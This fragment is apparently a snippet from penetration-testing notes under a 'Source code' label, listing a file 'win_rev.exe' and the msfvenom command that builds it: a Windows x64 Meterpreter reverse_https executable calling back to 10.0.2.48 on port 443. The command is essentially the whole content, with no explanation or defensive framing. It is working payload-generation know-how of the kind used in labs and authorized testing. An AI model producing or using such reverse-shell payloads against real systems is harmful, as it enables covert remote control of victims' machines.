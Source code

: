1. win_rev.exe 
> msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.2.48 LPORT=443 -f exe > rev.exe
